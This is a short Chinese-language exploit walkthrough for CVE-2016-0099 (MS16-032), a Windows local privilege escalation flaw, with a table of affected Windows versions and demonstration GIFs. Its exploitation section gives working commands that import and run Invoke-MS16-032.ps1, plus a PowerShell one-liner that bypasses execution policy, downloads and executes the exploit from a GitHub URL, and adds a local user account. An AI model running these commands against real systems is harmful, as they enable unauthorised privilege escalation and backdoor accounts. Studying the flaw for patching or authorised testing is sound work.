 ### CVE-2016-0099

#### 描述

此漏洞影响从Vista到Windows 10的所有Windows版本（包括服务器版本）以及为了实现利用，因为PowerShell脚本指示需要满足以下要求：目标系统需要有2个以上的CPU核心 PowerShell v2.0及更高版本必须正在运行

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10          |                  |         |        |                    |
| Windows 10          |                  | 1511    |        |                    |
| Windows 7           |                  |         | SP1    | :heavy_check_mark: |
| Windows 8.1         |                  |         |        |                    |
| Windows Rt 8.1      |                  |         |        |                    |
| Windows Server 2008 |                  |         | SP2    | :heavy_check_mark: |
| Windows Server 2008 |                  | R2      | SP1    | :heavy_check_mark: |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Vista       |                  |         | SP2    |                    |

#### 利用方式

> 目标系统需要有2个以上的CPU核心

PS脚本测试，在Windows server 2008 R2 sp1 x64执行下面命令

```
Import-Module .\Invoke-MS16-032.ps1
Invoke-MS16-032
```

还能远程添加账户

```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user ascotbe test6666 /add'"
```

GIF图如下

![6](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-0099_win2008_x64_ps.gif?raw=true)

利用exe文件测试通杀x64和x86的所有版本，这边只录制Windows 7 sp1 x64版本的

![7](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-0099_win7_x64.gif?raw=true)


